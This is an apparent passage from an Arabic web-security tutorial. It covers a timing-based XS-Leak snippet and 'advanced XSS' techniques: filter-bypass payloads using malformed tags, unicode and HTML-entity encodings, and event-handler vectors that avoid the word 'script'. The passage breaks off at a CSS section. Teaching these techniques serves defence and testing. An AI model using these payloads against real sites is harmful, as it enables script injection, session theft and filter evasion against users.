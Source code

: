 ### الهجمات القائمة على الذاكرة (XS-Leaks)

تستغل هذه الهجمات آليات عمل المتصفح للكشف عن معلومات حساسة دون سرقتها مباشرة.

```javascript
// قياس وقت استجابة الخادم للكشف عن معلومات حساسة
const startTime = performance.now();
fetch('/api/user/profile/private-data')
    .then(() => {
        const endTime = performance.now();
        if (endTime - startTime < 10) {
            // استنتاج معلومات عن حالة المستخدم
        }
    });
```

## تقنيات متقدمة لاستغلال ثغرات XSS

### تجاوز تقنيات الترميز والتصفية

#### استخدام التعليقات HTML

```html
<img/src="x"onerror=alert('XSS')//"/>
```

#### استخدام الترميزات البديلة

```html
<!-- ترميز أوني كود -->
<script>\u0061\u006c\u0065\u0072\u0074('XSS')</script>

<!-- ترميز ست عشري -->
<script>&#x61;&#x6c;&#x65;&#x72;&#x74;('XSS')</script>

<!-- ترميز عشري -->
<script>&#97;&#108;&#101;&#114;&#116;('XSS')</script>
```

#### تقنيات تشغيل JavaScript بدون استخدام كلمة `script`

```html
<svg><animate onbegin=alert('XSS') attributeName=x dur=1s>
<body onload=alert('XSS')>
<img src=x onerror=alert('XSS')>
<video src=1 onerror=alert('XSS')>
<audio src=1 onerror=alert('XSS')>
<iframe src="javascript:alert('XSS')">
<details open ontoggle=alert('XSS')>
<table background="javascript:alert('XSS')">
```

### استخدام CSS لتنفيذ XSS
